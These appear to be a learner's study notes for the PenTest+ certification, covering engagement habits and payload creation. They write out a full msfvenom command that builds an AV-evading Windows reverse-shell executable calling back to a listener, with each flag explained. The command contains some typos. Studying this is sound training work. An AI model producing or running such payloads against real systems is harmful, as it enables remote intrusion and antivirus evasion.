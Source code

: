 	- if you can't get a shell then you can't get a shell but you need to make sure you have exhausted all options.
	- keeping your game plan with comments and notes to present at the end of the engagement helps teach them and double check you.
	- preparing the notes and explaining them is reliving them which means if there was/is somthing else I could do. the idea is to 
	find it in my rehearsal thought rather then the morning of in the middle of an explanation.

	- in other words: rehearse your thought process the night before going in for explanation
# money$ if they don't have the budget to pay for my time or the tools neccessary
# maybe I don't have the resources neccessary to grab the software or hardware I need for the engagement
  i.e. new krypton is like an $8,000 computer. it would be my password cracking box for sure.
	 if you come across a long enough password policy or just long passwords. 
	 cracking these could take a lot of time with out the right resources/ gear
# listen
	 if the client tells you to focus in a certain place focus in a certain place. do not go rouge. lol just listen, document, review, execute

# ITEMS called out in the PENT TEST PLUS exam

	- common techniques to complete these attacks
		> cross compiling code i.e. how to get a payload from kali into windows format so that it can run
			- metasploit's msfvenom and meterpreter that allow you to configure custom payloads that will give you RCE, Ddos, root, etc..
			- this allows us to create a custom payload for the windows platform. i.e. get the payload converted to .exe so it
			will execute in the windows environment/ on a windows box 



# example of msfvenom   $:~# msfvenom -a x86 --platform windows -p windows/shell reverse tcp LHOST=10.0.0.107 LPORT= 4444 -b "\x00\x0a\xod" -e x86/shikata ga nai -f exe -o exploit.exe
		
		- the -a flag is letting it know that it is 32 bit software
		- tells it the platform is windows -p windows
		- the '-a' flag selects architecture
		- '--platform' select a platform Cisco, OSX, BSD, netbsd, NodeJS, javascript php, ruby, etc... 
		- LOHOST = local host or your ip address
		- '-b' is for bad characters. i.e things i dont want these bits in my payload, which could cause it to not work
		you also want to make sure it's wrapped in double quotes. "
			> bits: "\x00\x0a\xod" and "\x20 also very common
			> these characters are new line, return characters, dollar sign. these chars are bad and we are telling venom not to use them
		- '-e' is to select an encoder. the encoder is meant to help it get past (circumvent) anti-virus mal-ware detection systems 
			> -e x86/shikata ga nai 
			> the encoders job is to attempt to obfuscate or hide the payload from the systems mentioned above.
# the example below shows us creating a payload and the final details like size and where it was written as well as status of the job successful or failed 
